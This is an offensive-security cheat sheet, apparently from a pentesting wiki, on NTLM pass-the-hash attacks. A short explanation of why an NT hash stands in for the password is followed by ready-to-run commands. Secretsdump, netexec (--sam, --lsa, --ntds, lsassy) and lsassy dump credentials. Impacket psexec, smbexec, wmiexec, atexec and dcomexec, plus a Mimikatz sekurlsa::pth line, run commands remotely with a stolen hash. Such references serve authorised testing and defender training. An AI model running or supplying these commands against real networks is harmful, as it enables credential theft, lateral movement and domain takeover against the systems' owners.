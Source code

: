 **NT hash limits**
If you’re still following, you will have understood that the plaintext password is never used in these exchanges, but the hashed version of the password called NT hash. It’s a simple hash of the plaintext password.

If you think about it, stealing the plaintext password or stealing the hash is exactly the same. Since it is the hash that is used to respond to the challenge/response, being in possession of the hash allows one to authenticate to a server. Having the password in clear text is not useful at all.

We can even say that having the NT hash is the same as having the password in clear text, in the majority of cases.

**Pass the Hash**
It is therefore understandable that if an attacker knows the NT hash of a local administrator of a machine, he can easily authenticate to that machine using this hash. Similarly, if he has the NT hash of a domain user who is member of a local administration group on a host, he can also authenticate to that host as a local administrator.

If one of these hosts is compromised and the attacker extracts the NT hash from the workstation’s local administrator account, as all the other workstations have the same administrator account with the same password, then they will also have the same NT hash. The attacker can then use the hash found on the compromised host and replay it on all the other hosts to authenticate on them.

### Credential Dumping 

```
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

netexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds

netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```

### Command Execution

```
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```
**NetExec**
```
netexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
netexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```
**Mimikatz**
```
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```
